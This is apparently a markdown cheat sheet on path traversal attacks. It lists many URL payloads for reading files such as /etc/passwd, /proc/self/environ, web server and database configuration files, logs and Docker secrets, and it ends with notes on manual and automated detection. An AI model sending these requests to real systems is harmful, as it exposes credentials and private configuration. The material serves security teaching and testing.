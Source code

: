     - **Linux/Unix-specific techniques**
      - Using `/proc` virtual filesystem:
        - `/loadImage?filename=../../../proc/self/environ`
        - `/loadImage?filename=../../../proc/self/cmdline`
        - `/loadImage?filename=../../../proc/self/fd/0`
      - Using symbolic links:
        - `/loadImage?filename=../../../etc/alternatives/java`
    
    - **Using special device files**
      - Reading memory or hardware info:
        - `/loadImage?filename=../../../dev/mem`
      - Reading null or random devices:
        - `/loadImage?filename=../../../dev/random`

- **Real-world exploitation scenarios**
  
  - **Web applications**
    - Exploiting file inclusion in PHP apps:
      - `/index.php?page=../../../etc/passwd`
    - Extracting source code:
      - `/download.php?file=../../../var/www/html/config.php`
    - Accessing hidden API endpoints:
      - `/api/getFile?path=../../../app/controllers/AdminController.php`
  
  - **Web servers**
    - Accessing web server configuration:
      - `/loadImage?filename=../../../etc/apache2/apache2.conf`
      - `/loadImage?filename=../../../etc/nginx/nginx.conf`
    - Reading web server logs:
      - `/loadImage?filename=../../../var/log/nginx/access.log`
  
  - **Application frameworks**
    - Accessing framework configuration:
      - `/loadImage?filename=../../../var/www/html/app/config/database.yml`
    - Reading framework routing files:
      - `/loadImage?filename=../../../var/www/html/app/routes.php`
  
  - **Containerized environments**
    - Escaping from Docker containers:
      - Accessing host files via volume mounts
      - Reading container secrets:
        - `/loadImage?filename=../../../run/secrets/db_password`

- **Detecting path traversal vulnerabilities**
  
  - **Manual testing techniques**
    - Testing parameters for file references
    - Analyzing URL patterns for file operations
    - Testing both GET and POST parameters
    - Examining file upload functionality
  
  - **Automated scanning**
    - Using Burp Suite Professional's scanner
    - OWASP ZAP active scanner
    - Custom wordlists for path traversal sequences
  